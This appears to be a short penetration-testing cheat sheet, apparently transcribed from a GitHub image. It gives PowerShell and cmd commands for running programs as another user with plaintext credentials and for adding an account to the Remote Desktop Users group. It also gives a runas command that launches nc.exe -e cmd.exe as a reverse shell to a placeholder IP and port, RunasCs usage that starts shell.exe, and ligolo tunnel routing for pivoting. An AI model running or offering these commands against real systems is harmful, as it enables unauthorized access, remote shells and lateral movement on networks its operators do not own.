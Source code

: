 ### run as different user - powershell

powershell
```
# 1
$username = "username"
$password = ConvertTo-SecureString "password" -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential ($username, $password)

Start-Process "exe to run" -Credential $credential

# 2
$password = ConvertTo-SecureString "password" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("username", $password)
Enter-PSSession -ComputerName LEGACY -Credential $cred

# 3
$pass = ConvertTo-SecureString 'password' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("username",
$pass)
Invoke-Command -Computer localhost -ScriptBlock {COMMAND TO RUN} -Credential $cred
```

add to remote desktop users group
```
Add-ADGroupMember -Identity "Remote Desktop Users" -Members damon

net localgroup 'Remote Desktop Users' <username> /add
```

cmd
```
runas /env /profile /user:<hostnames\username> "C:\temp\nc.exe -e cmd.exe <IP> <PORT>" 
```

using the tool: https://github.com/antonioCoco/RunasCs/blob/master/Invoke-RunasCs.ps1?source=post_page-----b95d3146cfe9--------------------------------
```
Import-Module .\Invoke-RunasCs.ps1
Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command "shell.exe"
```

### tunnel

##### ligolo

on kali
config route
```
sudo ip tuntap add user pinklii mode tun ligolo
sudo ip link set ligolo up
sudo ip route add 172.16.91.0/24 dev ligolo

# local port fowarding
sudo ip route add 240.0.0.1/32 dev ligolo

# see that it added
ip rout list                                                               
```
